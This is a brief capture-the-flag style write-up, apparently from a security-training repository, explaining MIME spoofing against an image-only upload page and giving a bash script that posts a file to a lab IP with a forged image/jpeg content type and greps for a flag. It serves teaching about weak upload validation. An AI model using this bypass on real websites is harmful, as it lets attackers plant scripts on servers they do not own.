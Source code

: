 # Mime spoofing

The website have page to upload files, but it only accepts images. If the server is not properly protected and just check the Mime type, we can upload a script disguised as an image. Let's do a simple bash script that will simulate this :
```bash
ip="192.168.56.105"
script="/tmp/bad_script.sh"

touch "$script"
curl -s -X POST "$ip/index.php?page=upload" \
	-F "uploaded=@$script;type=image/jpeg" \
	-F "Upload=Upload"  \
	| grep 'flag'

rm "$script"
```